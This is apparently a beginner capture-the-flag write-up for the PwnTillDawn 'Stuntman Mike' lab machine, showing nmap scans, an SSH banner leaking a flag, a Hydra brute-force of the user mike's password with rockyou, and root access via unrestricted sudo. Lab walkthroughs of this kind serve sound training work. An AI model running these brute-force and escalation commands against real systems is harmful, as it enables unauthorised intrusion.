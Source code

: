 ```yaml
---
title: Stuntman Mike - Easy Linux Boot2root on PwntillDawn
date: 2023-10-28 00:00:00 -500
categories: [Hacking for Beginners, Boot2root CTFs]
tags: [Linux, PWTD, Easy, Hacking]
image:
    path: https://i.ibb.co/G5GTsCf/stuntman.png
---
```

PwnTillDawn Online Battlefield is a penetration testing lab created by the wizlynx group. Here, participants can put their offensive security skills to the test within a safe and legal environment, all while having a blast! The goal is simple: breach as many machines as possible by exploiting a sequence of weaknesses and vulnerabilities, and gather flags to demonstrate your successful exploitation
If you're eager to enhance your hacking skills and learn alongside us, we invite you to join the ranks of aspiring hackers and cybersecurity enthusiasts.

- **The Best Academy to Learn Hacking is [Here](https://affiliate.hackthebox.com/nenandjabhata)**.
- **Beginner Friendly challenges on TryHackMe [Here](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.

## Enumeration(Recon)
for the enumeration time, we always start with a basic nmap scan.. Like this.
```terminal
└─# nmap -Pn -p- --open 10.150.150.166
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8089/tcp open  unknown
```
As you can see here, our nmap scan found only 2 open port, and the port `8089` service seem's to be unknow. Let's launch another scan on that specific port.
```terminal
└─# nmap -sV -p8089 $ip 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 13:22 GMT
Stats: 0:01:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 13:24 (0:00:03 remaining)
Stats: 0:01:15 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 13:24 (0:00:05 remaining)
Nmap scan report for 10.150.150.166
Host is up (0.94s latency).

PORT     STATE SERVICE  VERSION
8089/tcp open  ssl/http Splunkd httpd
```
So, here we used nmap with the `-sV` that will Probe open ports to determine service/version info. and here we found an http Splunkd Version on that port. Let's visit it.

![The Splunkd Website](https://i.ibb.co/MPTksXf/splunk.png){:class="img-responsive"}
In this website, i tried to launch a Directory Fuzzing attack but nothing on it. The second Way now is to attack the ssh port `22`.
I will try to connect on the root ssh account using the `-v` flag, to see All Verbosity.
```terminal
└─# ssh root@10.150.150.166 -v
debug1: get_agent_identities: bound agent to hostkey
debug1: get_agent_identities: ssh_fetch_identitylist: agent contains no identities
debug1: Will attempt key: /root/.ssh/id_rsa ED25519 SHA256:B0hYWC7V1dBf7UAC5CM40v15EhQp9lzkw6JU8akRQ/c
debug1: Will attempt key: /root/.ssh/id_ecdsa 
debug1: Will attempt key: /root/.ssh/id_ecdsa_sk 
debug1: Will attempt key: /root/.ssh/id_ed25519 
debug1: Will attempt key: /root/.ssh/id_ed25519_sk 
debug1: Will attempt key: /root/.ssh/id_xmss 
debug1: Will attempt key: /root/.ssh/id_dsa 
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
You are attempting to login to stuntman mike's server - FLAG35=724a2734e80ddbd78b2694dc5eb74db395403360
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: publickey
debug1: Offering public key: /root/.ssh/id_rsa ED25519 SHA256:B0hYWC7V1dBf7UAC5CM40v15EhQp9lzkw6JU8akRQ/c
debug1: Authentications that can continue: publickey,password
debug1: Trying private key: /root/.ssh/id_ecdsa
debug1: Trying private key: /root/.ssh/id_ecdsa_sk
debug1: Trying private key: /root/.ssh/id_ed25519
debug1: Trying private key: /root/.ssh/id_ed25519_sk
debug1: Trying private key: /root/.ssh/id_xmss
debug1: Trying private key: /root/.ssh/id_dsa
debug1: Next authentication method: password
root@10.150.150.166's password: 
```
As you can see in this ouput, we found this `You are attempting to login to stuntman mike's server - FLAG35=724a2734XXXXXXXXXXXXXXXXXXXXXXXXXXXXX`. 
On this note that tell Us we are trying to connect to mike's server, now we know that there is a mike user.
**Bruteforce mike's Password**
The method we are going to try, is to bruteforce this user(mike) password using `Hydra` and `rockyou`.
```terminal
└─# hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://10.150.150.166 -t 60 -I  
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-28 13:51:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://10.150.150.166:22/
[22][ssh] host: 10.150.150.166   login: mike   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```
Wow, very fast. The password has been found, Now Let's connect on his ssh server using this password.
```terminal
└─# ssh mike@10.150.150.166
  System load:  0.01               Processes:            167
  Usage of /:   28.5% of 19.56GB   Users logged in:      1
  Memory usage: 20%                IP address for ens33: 10.150.150.166
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

18 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


*** System restart required ***
Last login: Tue Apr 21 08:57:00 2020
mike@stuntmanmike:~$ 
```
Successfuly logged in.
## Privilege Escalation
So here, we will check if the user mike have a `sudo` permission on this server using the `sudo -l`
```terminal
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: 
Sorry, try again.
[sudo] password for mike: 
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
```
Good, mike have ALL permission on this server. ALL we have to do is `sudo su` to get `root` privilegies.
```terminal
root@stuntmanmike:~# id;hostnamectl
uid=0(root) gid=0(root) groups=0(root)
   Static hostname: stuntmanmike
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 98ba6d703d174d9e9879437ad460d5c4
           Boot ID: 7fc1f70009394ece804a03c26ed1d3ed
    Virtualization: vmware
  Operating System: Ubuntu 18.04.4 LTS
            Kernel: Linux 4.15.0-96-generic
      Architecture: x86-64
root@stuntmanmike:~# 
```

### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 